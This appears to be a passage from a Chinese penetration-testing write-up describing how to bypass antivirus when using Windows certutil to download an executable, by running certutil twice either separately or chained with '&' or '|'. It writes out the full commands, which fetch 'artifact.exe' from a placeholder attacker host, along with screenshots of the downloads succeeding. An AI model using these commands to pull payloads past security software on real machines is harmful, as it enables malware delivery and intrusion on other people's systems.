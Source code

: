 这里有两种方法对杀软进行`certutil`下载绕过，本质都是执行两次`certutil`

第一种方法是先执行一个单独的`certutil`，然后再执行下载 exe 的命令，可以看到这里已经能够成功下载

```plain
certutil

certutil -urlcache -split -f http://ip/artifact.exe
```

[![](assets/1701612219-896e7d07a5f33757c145e4c227120a2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152043-888ba748-ca85-1.png)

另外一种方法就是使用 windows 自带的分隔符`&`和`|`，本质上跟第一种方法一样，相当于执行了两次`certutil`

```plain
certutil & certutil -urlcache -split -f http://ip/artifact.exe

certutil | certutil -urlcache -split -f http://ip/artifact.exe
```

[![](assets/1701612219-30ef8ad2e3f21e4d71a42aca3f0ce2e9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152045-89ab7f36-ca85-1.png)

